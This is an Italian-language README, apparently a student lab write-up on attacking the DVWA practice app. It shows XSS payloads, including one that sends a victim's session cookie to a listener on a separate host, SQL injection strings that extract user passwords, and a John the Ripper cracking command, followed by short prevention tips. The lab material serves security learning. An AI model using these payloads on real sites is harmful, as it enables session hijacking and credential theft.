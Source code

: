 # **Web Exploitation** 
La web exploitation si concentra sull'identificazione, l'analisi e lo sfruttamento di vulnerabilità presenti in applicazioni e servizi web.
Oggi ne andremo a vedere due: Cross-site scripting (XSS) e Structured Query Language (SQL)

## **Indice** 📘​
1. [XSS](#xss)
2. [SQL](#sql)
3. [John The Ripper](#john-the-ripper)
4. [Prevenzioni](#prevenzioni)

## **XSS** 💻​
**Alert**
```js
<script>alert("Sei vulnerabile")</script>
```
➡️ [Foto](https://github.com/OctavianIT/Octavian_Ceresau_WebApp/blob/main/Octavian_Ceresau_WebApp/Octavian_Ceresau_WV/webapp/xss/1.png)

**Location window**
```js
<script> window.location='http://192.168.56.101/dvwa/about.php'; </script>
```
➡️ [Foto](https://github.com/OctavianIT/Octavian_Ceresau_WebApp/blob/main/Octavian_Ceresau_WebApp/Octavian_Ceresau_WV/webapp/xss/loc1.png)

**Session ID**
```js
<script> document.write('<img src="http://192.168.56.102:3333?cookie=' + document.cookie + '">');<script>
```
➡️ [Foto](https://github.com/OctavianIT/Octavian_Ceresau_WebApp/blob/main/Octavian_Ceresau_WebApp/Octavian_Ceresau_WV/webapp/xss/sd1.png)

**XSS stored**
```js
<script> window.location='http://192.168.56.101/dvwa/about.php'; </script>
```
➡️ [Foto](https://github.com/OctavianIT/Octavian_Ceresau_WebApp/blob/main/Octavian_Ceresau_WebApp/Octavian_Ceresau_WV/webapp/xss/stored1.png)

## **SQL** 💉
**Condizione True**
```bash
'OR 1=1 #
```
➡️ [Foto](https://github.com/OctavianIT/Octavian_Ceresau_WebApp/blob/main/Octavian_Ceresau_WebApp/Octavian_Ceresau_WV/webapp/sql/tabella.png)

**Enumerazione colonne**
```bash
' UNION SELECT null, null –
```
➡️ [Foto](https://github.com/OctavianIT/Octavian_Ceresau_WebApp/blob/main/Octavian_Ceresau_WebApp/Octavian_Ceresau_WV/webapp/sql/colonne.png)

**Password**
```bash
'UNION SELECT first_name, password FROM users #
```
➡️ [Foto](https://github.com/OctavianIT/Octavian_Ceresau_WebApp/blob/main/Octavian_Ceresau_WebApp/Octavian_Ceresau_WV/webapp/sql/pass.png)

## **John The Ripper**🔪
**Cracking Password**
```bash
john --format=raw-md5 hash.txt
```
➡️ [Foto](https://github.com/OctavianIT/Octavian_Ceresau_WebApp/blob/main/Octavian_Ceresau_WebApp/Octavian_Ceresau_WV/webapp/sql/cracking.png)

## **Prevenzioni**
**XSS**🛡️
- Rimuovere caratteri pericolosi (es/ <>, “” etc…)
- Usare librerie apposite per la sanitizzazione
- Applicare una rigorosa whitelist di cosa è permesso fare e cosa no
- Utilizzare un'escape output

**SQL**🛡️
- Rimuovere caratteri speciali
- Query parametrizzate

